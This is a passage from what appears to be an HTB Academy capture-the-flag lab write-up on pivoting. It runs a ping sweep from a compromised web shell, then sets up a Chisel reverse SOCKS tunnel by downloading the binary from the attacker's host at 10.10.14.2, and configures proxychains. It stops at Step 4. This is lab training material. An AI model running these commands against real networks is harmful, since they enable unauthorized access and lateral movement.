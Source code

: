 link/ether 00:50:56:b9:1b:27 brd ff:ff:ff:ff:ff:ff

inet 172.16.5.15/16 brd 172.16.255.255 scope global ens192

valid_lft forever preferred_lft forever

inet6 fe80::250:56ff:feb9:1b27/64 scope link

valid_lft forever preferred_lft forever

www-data@inlanefreight:/var/www/html$ for i in {1..254}; do (ping -c 1 172.16.5.$i | grep "bytes from" &); done

64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.021 ms

64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.455 ms

**Answer:** `**172.16.5.35**`

### 

4. Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#4.-use-the-information-you-gathered-to-pivot-to-the-discovered-host.-submit-the-contents-of-c-flag.t)

#### 

Setup pivot from Attack host through inlanefreight.local (pivot host) to `**172.16.5.35**`:[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#setup-pivot-from-attack-host-through-inlanefreight.local-pivot-host-to-172.16.5.35)

**Step 1:** Start Chisel server (listener) on attack host:

┌──(kali㉿kali)-[~]

└─$ chisel server --reverse -v -p 1111 --socks5

Step 2: Transfer Chisel to pivot host and connect to the server (listener):

www-data@inlanefreight:/var/www/html$ wget http://10.10.14.2:8000/chisel

www-data@inlanefreight:/var/www/html$ chmod +x chisel

www-data@inlanefreight:/var/www/html$ ./chisel client -v 10.10.14.2:1111 R:socks

2023/03/05 18:56:05 client: Handshaking...

2023/03/05 18:56:05 client: Sending config

2023/03/05 18:56:05 client: tun: SSH connected

2023/03/05 18:56:11 client: tun: conn#1: Open [1/1]

2023/03/05 18:56:24 client: tun: conn#2: Open [2/2]

Step 3: Add entry to proxychains configuration file - `/etc/proxychains.conf`

socks5 127.0.0.1 1080

Step 4: Use proxychains to enumerate and access `**172.16.5.35**`:

┌──(kali㉿kali)-[~]
